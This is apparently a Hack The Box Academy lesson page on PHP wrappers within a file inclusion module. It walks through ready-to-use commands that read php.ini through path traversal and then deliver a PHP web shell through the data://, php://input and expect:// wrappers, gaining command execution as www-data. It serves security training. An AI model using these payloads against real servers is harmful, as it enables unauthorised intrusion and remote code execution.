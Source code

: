 <!--
 // Platform: Academy
// URL: https://academy.hackthebox.com/module/23/section/253
// Platform Version: V1
// Module ID: 23
// Module Name: File Inclusion
// Module Difficulty: Medium
// Section ID: 253
// Section Title: PHP Wrappers
// Page Title: Hack The Box - Academy
// Page Number: 5
-->

# PHP Wrappers

**Module Name:** File Inclusion **Page Number:** 5

#### 

#### FILE INCLUSION

# PHP Wrappers

## Data

#### Checking PHP Configurations

``` shell-session
ndefstathiou@htb[/htb]$ curl "http://<SERVER_IP>:<PORT>/index.php?language=php://filter/read=convert.base64-encode/resource=../../../../etc/php/7.4/apache2/php.ini"
<!DOCTYPE html>

<html lang="en">
...SNIP...
 <h2>Containers</h2>
    W1BIUF0KCjs7Ozs7Ozs7O
    ...SNIP...
    4KO2ZmaS5wcmVsb2FkPQo=
<p class="read-more">
```

``` shell-session
ndefstathiou@htb[/htb]$ echo 'W1BIUF0KCjs7Ozs7Ozs7O...SNIP...4KO2ZmaS5wcmVsb2FkPQo=' | base64 -d | grep allow_url_include

allow_url_include = On
```

#### Remote Code Execution

``` shell-session
ndefstathiou@htb[/htb]$ echo '<?php system($_GET["cmd"]); ?>' | base64

PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8+Cg==
```

![https://academy.hackthebox.com/storage/modules/23/data_wrapper_id.png](https://academy.hackthebox.com/storage/modules/23/data_wrapper_id.png)

``` shell-session
ndefstathiou@htb[/htb]$ curl -s 'http://<SERVER_IP>:<PORT>/index.php?language=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2BCg%3D%3D&cmd=id' | grep uid
            uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

## Input

``` shell-session
ndefstathiou@htb[/htb]$ curl -s -X POST --data '<?php system($_GET["cmd"]); ?>' "http://<SERVER_IP>:<PORT>/index.php?language=php://input&cmd=id" | grep uid
            uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

## Expect

``` shell-session
ndefstathiou@htb[/htb]$ echo 'W1BIUF0KCjs7Ozs7Ozs7O...SNIP...4KO2ZmaS5wcmVsb2FkPQo=' | base64 -d | grep expect
extension=expect
```

``` shell-session
ndefstathiou@htb[/htb]$ curl -s "http://<SERVER_IP>:<PORT>/index.php?language=expect://id"
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

# 

# 

#### Questions

####